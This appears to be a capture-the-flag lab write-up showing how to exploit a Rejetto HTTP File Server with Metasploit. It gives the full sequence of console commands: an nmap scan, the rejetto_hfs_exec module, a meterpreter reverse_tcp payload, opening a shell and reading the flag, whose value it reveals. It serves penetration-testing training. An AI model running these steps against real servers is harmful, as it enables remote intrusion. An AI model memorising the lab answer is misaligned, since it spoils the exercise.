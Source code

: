 # 🔬HFS - MSF Exploit

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Target IP: `10.2.19.226`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.19.226
setg RHOST 10.2.19.226
workspace -a HFS
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 10.2.19.226
```

![db_nmap -sS -sV -O 10.2.19.226](.gitbook/assets/image-20230416104826584.png)

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
info
# Description:
#   Rejetto HttpFileServer (HFS) is vulnerable to remote command 
#   execution attack due to a poor regex in the file ParserLib.pas. This 
#   module exploits the HFS scripting commands by using '%00' to bypass 
#   the filtering. This module has been tested successfully on HFS 2.3b 
#   over Windows XP SP3, Windows 7 SP1 and Windows 8.
run
```

```bash
# Type of payload can be changed base on the target O.S. architecture
set payload windows/x64/meterpreter/reverse_tcp

# Always check for the LHOST and LPORT values
run
```

```bash
shell
cd /
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`f74c8347798f4082daf4b4570dba094a`

![](.gitbook/assets/image-20230416110124037.png)

</details>

------

